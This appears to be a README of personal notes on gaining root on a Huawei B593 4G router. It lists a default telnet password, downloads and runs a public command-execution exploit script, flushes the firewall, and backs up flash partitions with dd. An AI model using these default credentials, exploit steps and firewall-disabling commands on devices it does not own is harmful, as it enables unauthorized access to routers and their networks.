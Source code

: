 # Huawei 593 - Tele2


telnet 192.168.1.1
# if telnet says connection refused keep trying every few seconds, it'll work
# if telnet just hangs and timeouts then port is not open and no point retrying with telnet
# login: admin
# pass: HW4GCPE
# type "shell" or "sh" to open root shell


# Download B593cmd.pl:

    wget http://opensource.hqcodeshop.com/Huawei%20B593/exploit/B593cmd.pl
    chmod +x B593cmd.pl
   
### Execute commands with

    ./B593cmd.pl <ip> <admin_pw> "command_to_execute


### Allow incoming connections
    ./B593cmd.pl 192.168.1.3 odemnn  "iptables -I INPUT -i br0 -j ACCEPT"


### SSH 
    ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc admin@192.168.1.3 -s /bin/sh


### Clear all iptables

    ./B593cmd.pl 192.168.1.1 admin "iptables -nL INPUT"
    ./B593cmd.pl 192.168.1.3 odemnn "iptables -P INPUT ACCEPT;iptables -P FORWARD ACCEPT;iptables -P OUTPUT ACCEPT;iptables -F;iptables -X


### Login 

    telnet 192.168.1.3


### ENable serial console    

Enable CFE and normal boot (B593.trx) serial console

    nvram set console_disable=0

# Enable boot_wait with 10 second delay for more recovery options

    nvram set boot_wait=on
    nvram set wait_time=10

# Boot regular OS (B593.trx). Use boot_part=1 for recovery OS (B593-small.trx)
    nvram set boot_part=0

# Write changes made to NVRAM
    nvram commit

![Screenshot](pics/backup-script_tele2.gif)

Run script in scripts/backup-script.sh for backup as above

### Backup MTD Partitions:

for mtd_partitions in mtd0 mtd1 mtd2 mtd3 mtd4 mtd5 mtd6; do 
dd if=/dev/$mtd_partitions of=/mnt/usb1_1/huawei_b593_backup/mtd_partitions/$mtd_partitions.bin; done

### Backup mtdblock Partitions:
for mtdblock0_partitions in mtdblock0 mtdblock1 mtdblock2 mtdblock3 mtdblock4 mtdblock5 mtdblock6; do 
dd if=/dev/$mtdblock0_partitions of=/mnt/usb1_1/huawei_b593_backup/mtdblock0_partitions/$mtdblock0_partitions.bin; done


References

http://opensource.hqcodeshop.com/Huawei%20B593/exploit/B593cmd.pl

https://blog.hqcodeshop.fi/archives/130-Exploit-Running-commands-on-B593-shell.html


http://blog.asiantuntijakaveri.fi/search/label/b593

http://blog.asiantuntijakaveri.fi/2013/08/gaining-root-shell-on-huawei-b593-4g.html

http://blog.asiantuntijakaveri.fi/2014/08/persistent-customizations-to-huawei.html

https://dlcdnets.asus.com/pub/ASUS/wireless/RT-N53/FW_RT_N53_30043763754.zip